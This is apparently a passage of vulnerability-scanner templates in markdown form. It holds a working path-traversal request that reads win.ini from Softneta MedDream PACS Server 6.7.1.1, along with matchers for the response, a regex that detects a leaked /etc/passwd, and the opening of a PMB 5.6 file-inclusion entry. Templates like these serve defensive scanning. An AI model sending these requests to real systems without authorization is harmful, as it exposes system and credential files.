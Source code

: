 **Type - regex**

- regex
  1. root:.\*:0:0:

---

# Softneta MedDream PACS Server Premium 6.7.1.1 - Local File Inclusion

## Description

- Softneta MedDream PACS Server Premium 6.7.1.1 is vulnerable to local file inclusion.
- severity - high
- tags - sofneta,lfi,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/pacs/nocache.php?path=%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cWindows%5cwin.ini

### Matchers

**Type - word**

- part - body
- words
  1. bit app support
  2. fonts
  3. extensions
- condition - and

---

# PMB 5.6 - Local File Inclusion

## Description

- PMB 5.6 is vulnerable to local file inclusion.
- severity - high
- tags - lfi,pmb,edb

## Requests

- Method - GET
